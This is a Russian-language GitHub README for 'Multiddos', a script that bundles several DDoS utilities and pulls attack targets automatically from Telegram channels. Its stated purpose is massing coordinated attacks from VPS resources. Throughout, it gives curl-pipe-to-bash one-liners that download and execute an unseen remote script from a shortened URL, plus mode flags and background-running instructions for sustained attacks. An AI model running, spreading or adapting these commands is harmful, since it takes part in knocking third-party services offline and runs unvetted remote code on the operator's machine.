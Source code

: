 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos) (ранее известный как auto_bash) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Выбор режима

В программе доступно 3 основных режима. -m1, -m2, -m3, по количеству запускаемых утилит.

`-m1` запускает только  Multiddos (обвертка для mhddos_proxy от Украинского жнеца)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m1 && tmux a
```

`-m2` запускает Multiddos + db1000n (этот режим используется по умолчанию)
```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m2 && tmux a
```
`-m3` запускает Multiddos + db1000n + uashield (на данный момент не рекомендуется, так как эффективность uashield не ясна, и он дублирует атаки по тем же целям, что и утилиты выше)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m3 && tmux a
```
`--matrix` режим матрицы (эффект матрицы в небольшом окне). Был добавлен в режиме тестирования, позже решили оставить как опцию.

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti --matrix && tmux a
```

## Запуск в фоне

Для того, чтобы запустить Multiddos в фоне достаточно просто убрать в конце команды вызов Tmux.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.


## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.